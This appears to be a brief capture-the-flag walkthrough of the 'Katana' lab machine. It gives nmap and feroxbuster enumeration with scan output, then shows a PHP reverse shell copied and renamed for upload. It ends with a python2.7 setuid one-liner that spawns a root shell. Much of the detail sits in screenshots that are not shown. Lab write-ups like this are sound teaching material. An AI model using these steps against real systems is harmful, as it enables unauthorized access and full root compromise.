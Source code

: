 ```bash
➜  sudo nmap -sCV -T4 -A -O -p- 192.168.200.83 -oA nmap-results
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-24 20:44 EAT
Warning: 192.168.200.83 giving up on port because retransmission cap hit (6).
Stats: 0:08:59 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 69.87% done; ETC: 20:57 (0:03:52 remaining)
Nmap scan report for 192.168.200.83
Host is up (0.16s latency).
Not shown: 65528 closed tcp ports (reset)
PORT      STATE    SERVICE  VERSION
21/tcp    open     ftp      vsftpd 3.0.3
22/tcp    open     ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 89:4f:3a:54:01:f8:dc:b6:6e:e0:78:fc:60:a6:de:35 (RSA)
|   256 dd:ac:cc:4e:43:81:6b:e3:2d:f3:12:a1:3e:4b:a3:22 (ECDSA)
|_  256 cc:e6:25:c0:c6:11:9f:88:f6:c4:26:1e:de:fa:e9:8b (ED25519)
80/tcp    open     http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Katana X
7080/tcp  open     ssl/http LiteSpeed httpd
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US
| Not valid before: 2020-05-11T13:57:36
|_Not valid after:  2022-05-11T13:57:36
|_http-title: Katana X
|_http-server-header: LiteSpeed
8088/tcp  open     http     LiteSpeed httpd
|_http-title: Katana X
|_http-server-header: LiteSpeed
8715/tcp  open     http     nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: 401 Authorization Required
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
11119/tcp filtered unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=4/24%OT=21%CT=1%CU=37269%PV=Y%DS=4%DC=T%G=Y%TM=6629
OS:484A%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=108%TI=Z%II=I%TS=A)SEQ(S
OS:P=101%GCD=1%ISR=108%TI=Z%II=I%TS=7)SEQ(SP=101%GCD=1%ISR=108%TI=Z%II=I%TS
OS:=A)OPS(O1=M551ST11NW7%O2=M551ST11NW7%O3=M551NNT11NW7%O4=M551ST11NW7%O5=M
OS:551ST11NW7%O6=M551ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE
OS:88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M551NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=
OS:S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPC
OS:K=G%RUCK=624C%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   160.55 ms 192.168.45.1
2   159.71 ms 192.168.45.254
3   160.55 ms 192.168.251.1
4   160.57 ms 192.168.200.83

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 858.32 seconds
```

```bash
curl -I http://192.168.200.83/
```

![image](https://gist.github.com/assets/58165365/b308f718-d510-4cb2-aa18-fcce6fb938fd)

```bash
feroxbuster -u http://192.168.200.83/
```

![image](https://gist.github.com/assets/58165365/6c87c932-8488-4532-a02d-5759235a4d92)

![image](https://gist.github.com/assets/58165365/768f8d30-d93d-41a9-ab84-902bbedf3723)

```bash
feroxbuster -u http://192.168.200.83:8088 -x php -x html
```

![image](https://gist.github.com/assets/58165365/8bc6cc98-4171-4ae7-bca3-b14c8f2ebc83)

![image](https://gist.github.com/assets/58165365/93a5cc14-5ca9-44d7-9abb-ab5aecfedf34)

```bash
➜  cp /usr/share/webshells/php/php-reverse-shell.php .
➜  vi php-reverse-shell.php 
➜  mv php-reverse-shell.php upload.php
```

![image](https://gist.github.com/assets/58165365/f483abc1-ec19-410a-9c59-810c480fa8f5)

![image](https://gist.github.com/assets/58165365/84dee312-f19d-4185-8ebf-dca28eb7b0ab)

![image](https://gist.github.com/assets/58165365/9f04b2f2-8841-4198-b406-0e01b77a5232)

[linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

![image](https://gist.github.com/assets/58165365/1f2b1b45-0a15-49aa-bda2-5d21453ada20)

![image](https://gist.github.com/assets/58165365/a2820a15-6236-4b1e-9378-925dee5b7830)

![image](https://gist.github.com/assets/58165365/35e46bae-51ad-4ca5-b106-d2ef9d04fe6f)

![image](https://gist.github.com/assets/58165365/ab42bb52-3f17-4e79-9f9a-aa00e2a09cca)

![image](https://gist.github.com/assets/58165365/d29f88f4-8b44-4a95-80be-451b3f8454dc)

```bash
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

![image](https://gist.github.com/assets/58165365/70b872fe-d4bf-4806-b1ad-366811771c13)